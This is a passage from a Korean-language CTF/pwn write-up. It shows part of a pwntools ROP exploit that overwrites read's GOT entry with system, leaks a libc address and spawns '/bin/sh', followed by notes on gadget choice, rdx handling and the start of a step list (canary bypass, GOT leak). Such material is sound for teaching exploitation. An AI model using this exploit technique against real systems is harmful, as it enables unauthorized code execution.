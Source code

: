 ```py

# read(0, read_got, ...)

payload += p64(pop_rdi) + p64(0x0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0)
payload += p64(read_plt)

# read('/bin/sh') == system('/bin/sh')

payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(read_plt)

p.sendafter(b'Buf: ', payload)

read = p.recvn(8)
system = u64(read) - read_system_offset

# read = p.recv(6)
# system = u64(read + b'\x00\x00') - read_system_offset

p.send(p64(system) + b'/bin/sh\x00')
p.interactive()
```

<br>

## GOT Overwrite 및 "/bin/sh" 입력 과정 참고 설명

"/bin/sh"은 덮어쓸 GOT 엔트리의 바로 뒤 메모리 주소에 위치시키도록 GOT엔트리 뒤에 같이 입력하면 된다. 이 바이너리에서 입력을 위해 `read` 함수를 사용하는데, 해당 함수는 `rdi, rsi, rdx` 세 개의 인자를 사용한다.

앞의 두 인자는 `pop rdi; ret`과 `pop rsi; pop r15; ret` 가젯으로 쉽게 설정할 수 있지만, `pop rdx`와 관련된 가젯은 일반적인 바이너리에서 거의 찾기 힘들다. (`pop r15`는 `pop rsi`를 위해 어쩔 수 없이 붙어있는 가젯으로 `r15`에는 그냥 0을 대입하도록 세팅해줌)

이럴 때는 `libc`의 코드 가젯이나 `libc_csu_init` 가젯을 사용하여 문제를 해결할 수 있다. 또는 `rdx` 값을 변화시키기 위해 다른 함수를 간접적으로 호출해서 값을 설정할 수도 있는데,   
예를 들어 `strncmp` 함수는 `rax`로 비교의 결과를 반환하고, `rdx`로 두 문자열의 첫 번째 문자부터 가장 긴 부분 문자열의 길이를 반환한다. 여기에 간접적으로, `rdx`에 넣기 원하는 값을 대입해서 사용할 수도 있다.

해당 문제에서는 `read` 함수의 GOT를 읽은 뒤 `rdx`에 어느정도 큰 값이 설정되어 있기 때문에, 따로 `rdx` 값을 설정하는 가젯을 추가하지 않았지만, 좀 더 reliable한 익스플로잇을 위해서는 가젯을 추가해주는 것이 좋다.

***해당 문제의 전체 익스플로잇 과정을 정리해보면,***

### 1.

카나리 우회

### 2.

`write(1, read_got, ...)`을 통해 resolve된 `read` 함수의 got 값을 출력하기
